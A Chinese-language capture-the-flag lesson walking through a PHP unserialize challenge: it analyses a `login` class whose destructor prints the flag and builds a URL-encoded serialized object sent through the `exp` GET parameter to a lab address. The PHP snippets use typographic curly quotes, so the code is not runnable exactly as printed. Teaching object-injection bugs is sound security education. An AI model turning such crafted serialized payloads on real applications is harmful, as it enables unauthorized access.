






# 网络安全：P155：真题讲解—unserialize



在本节课中，我们将学习一道关于PHP反序列化的CTF真题。通过分析题目代码、理解反序列化漏洞的原理，并最终构造利用数据获取flag，我们将掌握解决此类问题的基本思路。

## 概述与信息搜集



首先，我们对题目进行信息搜集。URL中包含关键词“unserialize”，这提示本题考察反序列化漏洞，这是网络安全领域的十大常见考点之一。

网页标题为“Y1ngGsPHP”，页面正文显示“PHP是最好的语言”。接下来，我们查看网页源代码以寻找更多线索。


在源代码中，我们发现了一段被HTML实体编码的PHP代码。`&lt;` 和 `&gt;` 分别代表 `<` 和 `>` 符号，因此这段内容实际上是有效的PHP代码片段。

## 核心代码分析

上一节我们找到了关键代码，本节中我们来详细分析它。我们将代码复制到本地进行解读。





这段代码的核心逻辑如下：
1.  定义了一个名为 `login` 的类。
2.  通过 `$_GET[‘exp’]` 获取用户传入的参数。
3.  对该参数进行反序列化操作 `unserialize()`。
4.  反序列化会生成一个 `login` 类的对象。
5.  该对象被销毁时，会自动调用 `__destruct()` 魔术方法。
6.  在 `__destruct()` 方法中，会检查对象的 `$user` 属性是否等于字符串 `‘admin’`。
7.  如果相等，则输出flag；否则，提示“你不是我的admin”并退出。

我们的目标很明确：**构造一个序列化字符串，使其在反序列化后生成的 `login` 对象，其 `$user` 属性的值为 `‘admin’`**。

## 解题步骤详解

理解了目标后，我们来看看如何一步步构造出所需的序列化数据。以下是解题的标准流程：

首先，将源代码复制到本地环境中。

**第一步：精简与准备代码**
删除或注释掉与对象属性无关的代码部分（例如方法逻辑），只保留类的定义和我们需要修改的属性。

```php
<?php
class login{
    public $user = ‘Y1ng’;
    // public function __destruct(){
    //     if($this->user == ‘admin’){
    //         echo “flag{xxx}”;
    //     }else{
    //         echo “你不是我的admin”;
    //         exit();
    //     }
    // }
}
?>
```

**第二步：修改属性值**
按照解题需求，将 `$user` 属性的默认值从 `‘Y1ng’` 修改为 `‘admin’`。

```php
<?php
class login{
    public $user = ‘admin’;
}
?>
```

**第三步：生成序列化字符串**
编写一个脚本，实例化修改后的类，并将其序列化。为了避免特殊字符在URL传输中产生问题，通常会对序列化结果进行URL编码。

```php
<?php
class login{
    public $user = ‘admin’;
}

$a = new login(); // 实例化对象
$serialized_data = serialize($a); // 生成序列化字符串
echo urlencode($serialized_data); // 输出URL编码后的结果
?>
```



执行上述脚本，我们将得到一个编码后的字符串，例如（具体值可能因环境略有差异）：
`O%3A5%3A%22login%22%3A1%3A%7Bs%3A4%3A%22user%22%3Bs%3A5%3A%22admin%22%3B%7D`



**第四步：发送Payload获取Flag**
观察原代码，它通过 `$_GET[‘exp’]` 接收参数。因此，我们将上一步生成的字符串作为 `exp` 参数的值传递给题目URL。

构造的访问URL如下：
`http://靶场地址/?exp=O%3A5%3A%22login%22%3A1%3A%7Bs%3A4%3A%22user%22%3Bs%3A5%3A%22admin%22%3B%7D`

服务器接收到该请求后，会进行URL解码得到原始序列化字符串 `O:5:”login”:1:{s:4:”user”;s:5:”admin”;}`，然后执行 `unserialize()` 函数。




反序列化成功创建了 `$user` 为 `‘admin’` 的 `login` 对象。当脚本执行结束或对象被销毁时，`__destruct()` 方法被触发，判断条件满足，从而输出正确的flag。

## 总结

本节课中我们一起学习了一道典型的PHP反序列化题目。我们首先从网页信息中定位到关键代码，然后分析了 `login` 类的逻辑，明确了需要让 `$user` 属性等于 `‘admin’` 的目标。接着，我们通过**本地修改类属性、序列化对象、URL编码**的标准步骤，构造出有效的攻击载荷（Payload），最终通过GET参数提交成功获取flag。


反序列化漏洞的本质是**对象注入**，它允许攻击者控制传入的数据，从而影响程序逻辑。掌握其原理和利用方法是Web安全学习中的重要一环。对于想深入学习的同学，可以进一步研究PHP魔术方法（如 `__wakeup`, `__construct` 等）以及属性修饰符（public/private/protected）对序列化字符串格式的影响。